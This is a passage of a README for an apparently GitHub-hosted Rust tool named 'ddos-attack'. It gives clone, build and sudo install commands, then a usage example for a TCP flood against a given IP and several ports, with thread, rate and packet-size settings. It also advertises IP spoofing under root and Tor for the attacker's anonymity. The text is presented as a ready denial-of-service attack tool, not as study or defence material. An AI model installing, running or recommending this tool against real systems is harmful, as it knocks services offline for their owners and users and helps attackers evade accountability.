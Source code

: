 3. **Root privileges** (required for IP spoofing features)

## Installation

### Method 1: Quick Install (Recommended)
```bash
# Clone the repository
git clone https://github.com/Athexhacker/DDOS.git
cd ddos-attack

# Make scripts executable
chmod +x build.sh install.sh

# Build the project
./build.sh

# Install system-wide (optional)
sudo ./install.sh
```

### Method 2: Manual Build
```bash
# Clone and build manually
git clone https://github.com/Athexhacker/DDOS.git
cd ddos-attack
cargo build --release

# Binary will be at: ./target/release/ddos-attack
```

## How to Use

### Interactive Experience
The tool now automatically asks you about Tor usage and IP spoofing when you run attacks - no need for complex command-line flags!

### Basic Usage Pattern
```bash
./target/release/ddos-attack [ATTACK_TYPE] [OPTIONS]
```

### 1. Layer 4 Attacks (TCP/UDP Flooding)

#### TCP Flood Attack
```bash
./target/release/ddos-attack layer4 \
  --targets "192.168.1.100" \
  --ports "80,443,8080" \
  --protocol tcp \
  --threads 50 \
  --rate 1000 \
  --size 1024

# The tool will ask:
# 🔒 Do you want to use Tor for anonymity? (y/N): 
```
